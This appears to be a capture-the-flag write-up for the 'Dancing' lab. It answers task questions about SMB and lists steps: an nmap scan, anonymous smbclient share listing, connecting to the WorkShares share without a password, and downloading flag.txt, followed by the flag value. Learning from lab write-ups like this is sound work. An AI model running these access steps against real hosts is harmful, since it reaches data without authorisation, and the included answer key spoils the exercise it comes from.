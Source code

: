 # Dancing  

## Task 1  
Q: What does the 3-letter acronym SMB stand for?  
A: Server Mesasge Block  

## Task 2  
Q: What port does SMB use to operate at?  
A: 445  

## Task 3  
Q: What is the service name for port 445 that came up in our Nmap scan?  
A: microsoft-ds  

## Task 4  
Q: What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?  
A: -L  

## Task 5  
Q: How many shares are there on Dancing?  
A: 4  

## Task 6  
Q: What is the name of the share we are able to access in the end with a blank password?  
A: WorkShares  

## Task 7  
Q: What is the command we can use within the SMB shell to download the files we find?  
A: get  

## SUBMIT FLAG  
``` text
1. scan open ports
    (1) [host] # nmap -sV ${ip}
2. list SMB shares with guest/anonymous authentication
    (1) [host] # smbclient -L ${ip}
3. connect to SMB shares with guest/anonymous authentication
    (1) [host] # smbclient \\\\${ip}\\WorkShares
4. get flag.txt
    (1) smb: \> ls
    (2) smb: \> cd James.P\
    (3) smb: \James.P\> ls
    (4) smb: \James.P\> get flag.txt
    (5) [host] cat flag.txt
```
A: 5f61c10dffbc77a704d76016a22f1664